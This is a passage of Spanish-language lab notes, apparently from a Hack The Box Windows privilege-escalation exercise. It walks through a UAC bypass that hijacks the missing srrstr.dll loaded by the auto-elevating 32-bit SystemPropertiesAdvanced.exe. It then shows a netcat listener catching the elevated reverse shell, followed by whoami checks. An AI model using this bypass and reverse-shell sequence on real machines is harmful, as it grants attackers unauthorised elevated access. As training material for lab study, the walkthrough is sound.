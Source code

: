 
* **`tasklist /svc`** lista procesos y servicios asociados. `findstr "rundll32"` filtra las líneas que contienen `rundll32`.
* **Salida en el texto:** Muestra varios procesos `rundll32.exe` con distintos PIDs.

### `taskkill /PID <PID> /F`

* **`taskkill`** mata procesos por PID. ` /F` fuerza la terminación.
* **Uso en el ejemplo:** Se terminan los procesos `rundll32.exe` residuales antes de ejecutar el binario auto-elevador para asegurar comportamiento consistente.

```
C:\htb> taskkill /PID 7044 /F
SUCCESS: The process with PID 7044 has been terminated.

C:\htb> taskkill /PID 6300 /F
SUCCESS: The process with PID 6300 has been terminated.

C:\htb> taskkill /PID 5360 /F
SUCCESS: The process with PID 5360 has been terminated.
```

---

## 17. Ejecutar la versión 32-bit de SystemPropertiesAdvanced.exe

```
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

* **Por qué SysWOW64:** En sistemas 64-bit, los ejecutables 32-bit residuales o versiones específicas se encuentran en `C:\Windows\SysWOW64`. La técnica 54 ataca la versión de 32-bit del binario.
* **Efecto buscado:** Este binario es auto-elevador y, debido al fallo de carga de `srrstr.dll`, cargará la DLL colocada en `WindowsApps` según el orden de búsqueda. Como `SystemPropertiesAdvanced.exe` se ejecuta con privilegios elevados, la DLL cargada se ejecuta en contexto elevado.

---

## 18. Conexión elevada recibida y verificación de privilegios

* **Listener muestra la conexión entrante.** En el ejemplo, la IP del objetivo y el banner de Windows aparecen en la consola del atacante.

### `whoami` y `whoami /priv` desde la shell recibida

```
nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
winlpe-ws03\sarah


C:\Windows\system32>whoami /priv

whoami /priv
PRIVILEGES INFORMATION
----------------------
```